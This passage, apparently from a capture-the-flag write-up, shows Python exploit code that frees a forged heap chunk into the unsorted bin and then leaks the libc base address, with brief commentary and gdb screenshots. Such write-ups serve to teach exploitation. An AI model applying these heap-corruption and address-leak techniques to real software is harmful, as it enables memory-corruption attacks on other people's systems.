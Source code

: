 ```python
ptr0x420 = heap_base + 0x3b0 # address of fake chunk
print(f'freeing fake chunk @ {hex(ptr0x420)}')
# description(8 bytes)/bounty(8 bytes)/size(8 bytes)/inuse(1 byte)/alive(1 byte)
alloc(26, data=p64(ptr0x420)+p64(0)+p64(8)+b'\x01\x01')
delete(idx) # free fake 0x420 chunk - idx from code snippet above
```

Sure enough, if everything is correct, we don't get a crash, and we get the fake chunk into the unsorted bin.

<img src="./assets/gdb2.png" align="center" />

The libc address can be leaked the same way we leaked a heap address in our first step.

```python
idx = alloc(26)
alloc(100)
delete(idx)
delete(idx+1)
# heap+0x3e0 contains our libc pointer
alloc(26, data=p64(heap_base+0x3e0)+p64(0)+p64(8)+b'\x01\x01')
libc.address = u64(view(idx, len=6).ljust(8, b'\x00')) - 0x219ce0
print(f'libc base @ {hex(libc.address)}')
assert libc.address&0xfff == 0, 'Bad libc base address'
```

<img src="./assets/libcleak.png" align="center" />
